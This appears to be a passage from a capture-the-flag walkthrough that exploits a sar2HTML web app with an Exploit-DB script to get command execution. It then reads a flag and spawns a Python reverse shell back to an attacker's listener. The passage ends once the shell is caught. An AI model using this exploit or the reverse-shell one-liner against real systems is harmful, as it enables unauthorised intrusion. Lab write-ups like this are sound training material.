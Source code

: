 ```
┌──(kali㉿kali)-[~]
└─$ python /usr/share/exploitdb/exploits/php/webapps/49344.py
Enter The url => http://sar/sar2HTML/
Command => echo hello world
hello world

Command => whoami
www-data
```

Looks like it works! That's encouraging!

6) We find out first flag in the home directory:

```
Command => ls -la /home
total 16
drwxr-xr-x  3 root     root     4096 Jul 22  2020 .
drwxr-xr-x 24 root     root     4096 Mar 10  2020 ..
-rw-r--r--  1 www-data www-data   33 Mar  4 07:34 local.txt
drwxr-xr-x 17 love     love     4096 Jul 24  2020 love

Command => cat /home/local.txt
1c99c18fa3425b7a2fa71c4fce22d819
```

## Privilege Escalation

7) Before moving on to escalating ourselves to `root` we're going to set up a reverse shell because this "terminal" will very quickly get annoying...

- We set up a local listener in our Kali machine to catch the shell

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80          
listening on [any] 80 ...
```

- Back in the exploit "shell", we invoke the reverse shell

```
Command => which python

Command => which python3
/usr/bin/python3

Command => python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.199\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

- Our local listener catches the shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.199] from (UNKNOWN) [192.168.184.35] 44934
www-data@sar:/var/www/html/sar2HTML$ whoami
whoami
www-data
www-data@sar:/var/www/html/sar2HTML$ 
```
